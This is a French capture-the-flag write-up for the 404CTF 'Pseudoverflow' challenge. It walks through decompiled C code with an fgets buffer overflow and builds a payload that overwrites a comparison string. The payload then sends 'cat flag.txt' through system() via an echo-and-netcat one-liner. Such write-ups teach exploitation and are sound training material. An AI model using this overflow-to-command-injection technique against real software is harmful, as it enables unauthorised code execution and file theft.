









<h1>Pseudoverflow</h1>
<h3>Introduction - <b>100pts.</b></h3> 
<p>Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

<hr >

Objectif: lire le fichier `flag.txt`.

Auteurs : @<b>Narcisse</b></p>

<hr >

Connexion :

`nc challenges.404ctf.fr 31958`

Fichier : 

<a href="./course">course</a>

</hr>

<h3>Solution</h3>

**_Un énorme merci à Lowengeist pour ses réponses à mes très nombreuses questions sur ce challenge ! Car je n'avais jamais fait ça auparavant !_**

En se connectant sur le serveur, pour voir comment ça fonctionne, on doit qu'on doit rentrer un certain pseudo pour aller plus loin :



En utilisant un désassembleur, comme par exemple <a href="https://hex-rays.com/ida-free/">IDA (free)</a>, on obtient la vue suivante :



Et en utilisant le décompilateur intégré, on peut avoir :

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[106]; // [rsp+0h] [rbp-70h] BYREF
  char s1[6]; // [rsp+6Ah] [rbp-6h] BYREF

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  strcpy(s1, "perds");
  puts(::s);
  fgets(s, 256, stdin);
  if ( !strcmp(s1, "gagne") )
    win(s);
  else
    puts("Nous vous recontacterons dans les prochaines semaines.");
  return 0;
}
```

Étudions tout ça, on déclare `s` et `s1` de taille `106` et `6` respectivement. 

On copie le string "perds" dans la variable `s1` : 

```c
strcpy(s1, "perds");
```

Et ensuite on demande à l'utilisateur de rentrer son pseudo : 

```c
fgets(s, 256, stdin);
```

Et on compare son pseudo avec le string "gagne", donc en théorie il est impossible d'avoir la condition de victoire :

```c
if ( !strcmp(s1, "gagne") )
```

Si on regarde de plus près, le `fgets` utilise le buffer `s` de taille `106` et indique une taille max de `256`, donc on peut écrire en dehors de la variable grace à ça.

Le but est de réussir à avoir la valeur "gagne" dans la variable `s1`. Voici comment fonctionne la stack mémoire :



Donc par exemple dans notre cas, `c` est un peu comme `s`, et si on écrit plus de caractères que prévu, voici ce qu'on peut faire :



On peut déborder sur les adresses suivantes, et donc écraser la variable `bar` et dans notre cas `s1` !

Donc en suivant tout ceci, je tente de donner comme pseudo :

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaagagne`

<i>106 'a' et 'gagne'</i>, donc en théorie, ça devrait déborder sur `s1` et remplacer sa valeur par gagne. Mais en pratique, on a toujours le même message ...

Pour essayer de comprendre, un petit coup de `ltrace` et voici le résultat :



On remarque qu'il compare "gagne\n" avec "gagne", alors qu'on n'a jamais écrit ce "\n" ! Mais il est ajouté automatiquement lors de l'appuie sur entrée pour "envoyer" notre input. Il existe plusieurs façon d'envoyer la réponse, appuyer sur entrée ou envoyer un caractère nul, nous y reviendrons. Néanmoins, on voit bien que nous avons réussi à écraser la valeur de base de `s1` et de mettre ce qu'on voulait dedans !

L'outil echo permet d'afficher du texte, mais aussi combiné avec un pipe (`|`), on peut mettre la sortie dans un programme, par exemple notre éxécutable :



Et avec les bons arguments, echo permet de ne pas envoyer le caractère "\n" :





Eeeeeeeeeeeeeeeeeeet c'est toujours pas bon ...

Mais il se passe des nouvelles choses, il dit qu'il ne trouve pas le string qu'on vient de lui envoyer. Après un rapide coup d'oeil à notre code, la fonction `win` est comme ceci :

```c
int __fastcall win(const char *a1)
{
  return system(a1);
}
```

Donc il essaye de lancer ce qu'on lui passe en paramètre, et si on se souvient de l'énoncé du challenge, il faut lire le fichier `flag.txt`. Donc il faut adapter notre pseudo pour y ajouter un `cat flag.txt` au début, ce qui donne :

`cat flag.txt aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaagagne` (111 caractères)

Et maintenant il faut essayer sur le serveur, car en local nous n'avons pas ce fichier `flag.txt` et *bam* ça ne fontionne pas, on a le message de base qui indique que le pseudo est incorrect ...

Car on se retrouve dans la situation d'avant, sans utiliser echo, donc on envoi un "\n", on essaye avec echo. Mais rien ne s'envoi, car en local le protocol est différent que celui du serveur, donc on est obligé d'envoyer un marqueur indiquant que l'input est terminée et que le serveur peut le lire, l'un d'entre eux est "\n" mais précedemment j'ai mentionné un caractère nul, `\x00` et c'est celui-ci que nous allons utiliser.

Pour que echo n'envoi juste pas la valeur mais bien un caractère nul, il faut ajouter l'option `-e`, ce qui nous donne :

`echo -e cat flag.txt aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaagagne\x00 | nc challenges.404ctf.fr 31958`




Le flag est donc : <b>404CTF{0v3rfl0w}</b>
